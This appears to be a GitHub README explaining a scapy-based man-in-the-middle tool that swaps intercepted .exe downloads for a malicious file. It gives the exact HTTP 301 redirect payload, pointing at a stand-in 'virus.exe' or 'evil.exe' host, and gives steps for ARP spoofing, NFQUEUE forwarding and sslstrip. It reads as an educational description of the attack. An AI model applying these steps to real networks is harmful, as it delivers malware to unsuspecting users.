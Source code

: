 # replace-downloads
Built similar to dns-spoofer (www.github.com/maurya-bitlegacy/dns-spoofer). For downloading files, the request and response pass through the http layer, not the dns layer. The http layer check of scapy is convenient enough for printing and analyzing, but inconvenient for modifications (makes code very complex). Utilizing the fact that useful http data is contained in the RAW layer, we can categorize http requests and responses. http requests have http in dport field in the TCP layer and http responses have http in sport field in the TCP layer.

Once we see that the request has some .exe download request, we can modify the response to serve the target computer a file of our taste. We use sequence numbers and ack numbers in the TCP layer to find the response which corresponds to a download request.

For the response of the http request identified through seq and ack, we use the HTTP response code 301: Moved Permanently in the load field (RAW layer) of the response packet which originally would've had HTTP 200: OK, and give the link to our malicious file in the format: "HTTP/1.1 301 Moved Permanently\nLocation: https://www.example.com/virus.exe\n\n". Again, we need to remove the len, checksum field in IP and checksum field in TCP layer, which will be calculated and filled again by scapy appropriately. To use a file present in web root (/var/www/html), use ip/dir/filename.exe, eg: 192.168.18.38/evil-files/evil.exe

Run arp-spoof.py (More details: www.github.com/maurya-bitlegacy/arp-spoofer) in parallel, and use FORWARD in NFQUEUE to do this for a target computer.

Sometimes, the error IndexError: Layer [TCP] not found might be thrown by replace-downloads.py because some packets don't have a TCP layer. This can be ignored.

A note on https: To bypass https, sslstrip needs to be set up which runs only on python2. Also, most websites use HSTS harcoding these days, so sslstrip is not likely to capture traffic on those websites. 
